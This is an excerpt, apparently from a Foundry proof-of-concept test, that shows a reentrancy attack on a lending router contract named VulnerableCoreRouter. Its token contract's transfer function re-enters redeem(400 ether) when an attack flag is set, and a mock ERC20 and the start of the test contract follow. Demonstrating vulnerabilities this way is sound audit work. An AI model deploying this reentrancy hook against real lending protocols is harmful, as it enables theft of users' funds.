 ```solidity
    VulnerableCoreRouter public coreRouter;
    address public lToken;
    bool public attackMode;

    constructor(address _coreRouter, address _lToken) {
        coreRouter = VulnerableCoreRouter(_coreRouter);
        lToken = _lToken;
    }

    function transfer(address to, uint256 amount) external override returns (bool) {
        if (attackMode) {
            attackMode = false;
            coreRouter.redeem(400 ether, payable(lToken));
        }
        return true;
    }

    function mint(address to, uint256 amount) external {
        // Simplified minting
    }

    // Minimal IERC20 implementation
    function balanceOf(address) external view override returns (uint256) { return 0; }
    function allowance(address, address) external view override returns (uint256) { return 0; }
    function approve(address, uint256) external override returns (bool) { return true; }
    function transferFrom(address, address, uint256) external override returns (bool) { return true; }
}

// Mock ERC20
contract MockERC20 is IERC20 {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function transfer(address to, uint256 amount) external override returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) external override returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) external override returns (bool) {
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function mint(address to, uint256 amount) external {
        balanceOf[to] += amount;
    }
}

contract PoC is Test {
    using SafeERC20 for IERC20;

    VulnerableCoreRouter public coreRouter;
    LendStorage public lendStorage;
```